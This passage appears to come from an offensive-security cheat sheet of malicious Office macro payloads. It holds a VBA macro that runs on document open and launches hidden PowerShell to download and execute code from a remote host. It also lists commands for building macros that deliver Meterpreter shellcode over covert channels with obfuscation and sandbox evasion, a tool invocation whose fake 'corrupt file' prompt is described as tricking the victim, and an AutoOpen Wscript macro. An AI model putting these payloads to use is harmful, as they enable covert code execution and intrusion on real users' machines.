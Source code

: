 ### DOCM - Download and Execute

> Detected by Defender (AMSI)

```ps1
Sub Execute()
Dim payload
payload = "powershell.exe -nop -w hidden -c [System.Net.ServicePointManager]::ServerCertificateValidationCallback={$true};$v=new-object net.webclient;$v.proxy=[Net.WebRequest]::GetSystemWebProxy();$v.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $v.downloadstring('http://10.10.10.10:4242/exploit');"
Call Shell(payload, vbHide)
End Sub
Sub Document_Open()
Execute
End Sub
```

### DOCM - Macro Creator

* https://github.com/Arno0x/PowerShellScripts/tree/master/MacroCreator

```ps1
# Shellcode embedded in the body of the MS-Word document, no obfuscation, no sandbox evasion:
C:\PS> Invoke-MacroCreator -i meterpreter_shellcode.raw -t shellcode -d body
# Shellcode delivered over WebDAV covert channel, with obfuscation, no sandbox evasion:
C:\PS> Invoke-MacroCreator -i meterpreter_shellcode.raw -t shellcode -url webdavserver.com -d webdav -o
# Scriptlet delivered over bibliography source covert channel, with obfuscation, with sandbox evasion:
C:\PS> Invoke-MacroCreator -i regsvr32.sct -t file -url 'http://my.server.com/sources.xml' -d biblio -c 'regsvr32 /u /n /s /i:regsvr32.sct scrobj.dll' -o -e
```

### DOCM - C# converted to Office VBA macro

> A message will prompt to the user saying that the file is corrupt and automatically close the excel document. THIS IS NORMAL BEHAVIOR! This is tricking the victim to thinking the excel document is corrupted.

https://github.com/trustedsec/unicorn

```ps1
python unicorn.py payload.cs cs macro
```

### DOCM - VBA Wscript

> https://www.darkoperator.com/blog/2017/11/11/windows-defender-exploit-guard-asr-rules-for-office

```ps1
Sub parent_change()
    Dim objOL
    Set objOL = CreateObject("Outlook.Application")
    Set shellObj = objOL.CreateObject("Wscript.Shell")
    shellObj.Run("notepad.exe")
End Sub
Sub AutoOpen()
    parent_change
End Sub
Sub Auto_Open()
    parent_change
End Sub
```
